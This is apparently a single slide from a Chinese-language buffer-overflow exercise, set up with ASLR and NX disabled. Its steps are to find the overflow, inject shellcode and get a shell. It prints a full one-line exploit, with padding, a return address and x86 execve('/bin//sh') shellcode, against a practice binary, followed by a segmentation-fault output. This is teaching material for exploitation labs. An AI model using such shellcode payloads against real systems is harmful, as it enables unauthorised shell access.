

63￼
練習(no ASLR, no NX)
找出溢出點
使用shellcode
Get shell
root@Ubuntu : tmp ➤ (python -c "print 'a'*13+'\x80\xd5\xff\xff'+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'";cat)|./easy
whoami
Segmentation fault (core dumped)